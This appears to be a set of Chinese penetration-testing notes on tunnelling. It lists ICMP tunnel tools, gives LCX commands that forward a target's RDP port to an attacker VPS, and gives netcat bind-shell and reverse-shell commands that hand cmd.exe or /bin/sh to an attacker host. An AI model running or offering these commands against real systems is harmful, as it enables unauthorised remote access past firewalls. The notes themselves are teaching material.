 ICMP隧道

建立ICMP隧道，将TCP/UDP数据封装在ICMP的Ping数据包中，从而穿过防火墙。
常用的ICMP隧道工具有

    icmpsh
    pingTUnnel
    icmptunnel
    powershell icmp

传输层隧道技术

LCX隧道

LCX是一个比较经典的转发工具。端口转发有两个 一个是LCX一个是SSH。LCX与SSH不同的点是。LCX只能端口对端口转发，不能全局转发，但SSH可以。
Default
上传Lcx.exe，目标服务器上执行
Lcx.exe -slave VPS地址 4444 127.0.0.1 3389
 
命令的意思是把3389端口的所有数据转发到公网vps上
 
然后在攻击者服务器上
Lcx.exe -listen 4444 5555
 
 
win+r，输入mstsc进行远程连接，
vps的ip+5555端口就可以连接到目标机器的3389端口（需要关掉防火墙）

nc（netcat）隐藏隧道技术

kali自带，windows需要安装。nc有两种方式可以获得shell

    正向Shell：正向客户端连接服务器，客户端想要获取服务器的Shell。
    反向Shell：反向客户端连接服务器，服务器想要获取客户端的Shell。反向Shell通常用在开启了防护措施的目标及其上，例如防火墙过滤端口转发等。

正向shell

攻击者连接目标主机，上传nc64.exe
Default
nc -Lvp 4445 -e /bin/sh   //lInux命令  lInux只弹lInux的
nc64.exe -lvp 4445 -e c:\windows\system32\cmd.exe   //wIndows命令

攻击者输入
Default
nc64.exe 目标服务器ip 4445

反向shell

攻击者上开启监听端口
Default
nc64.exe -lvp 4446     //此处无-e

目标主机
Default
nc64.exe ip地址 -e c:\windows\system32\cmd.exe  #windows
nc ip地址 4446 -e /bin/sh         #Linux

扩展
Default
查看对方21端口上运行的信息和信息版本
nc -nv 目标ip 21
 